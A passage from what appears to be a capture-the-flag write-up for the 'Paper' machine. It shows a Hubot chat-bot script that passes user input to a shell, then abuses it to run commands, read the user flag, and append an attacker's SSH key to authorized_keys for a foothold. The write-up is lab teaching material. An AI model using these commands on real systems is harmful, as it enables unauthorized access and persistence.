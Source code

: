 ```
@exec = require('child_process').exec
cmd = msg.match[1]
msg.send "Running [#{cmd}]..."

@exec cmd, (error, stdout, stderr) ->
if error
msg.send error
msg.send stderr
else
msg.send stdout
<!=====End of file ../hubot/scripts/cmd.coffee=====>
```

What does it do? Exactly what you think... RCE, but at least it's scoped to a non-root user.

```
5:02 PM
recyclops cmd whoami
Bot
5:02 PM
Running [whoami]...
Running [whoami]...
dwight
dwight
```

We can use this to get the `user.txt` flag as a starting point with `recyclops cmd cat /home/dwight/user.txt`:

```
 Running [cat /home/dwight/user.txt]...
c1ff88de...
```

# Foothold & `rfoot`

We can add our own public key into `dwight`'s authorized keys with this and use that as a starting point:

```
recyclops cmd echo ssh-rsa <key goes here> >> /home/dwight/.ssh/authorized_keys
```

And we're in with a stable shell.

```
[dwight@paper ~]$
```

*Note*: Another approach here could be use `recyclops` to spawn a reverse shell. While that _might_ be better for not leaving fingerprints (literally our SSH public key), it means we have to deal with getting a stable shell from there. This is easier, and for a CTF I'll take that tradeoff.

Now that we're in, we can see that `dwight` has no `sudo` privs - prompting for a password just to run `sudo -l`, so that's a no go.
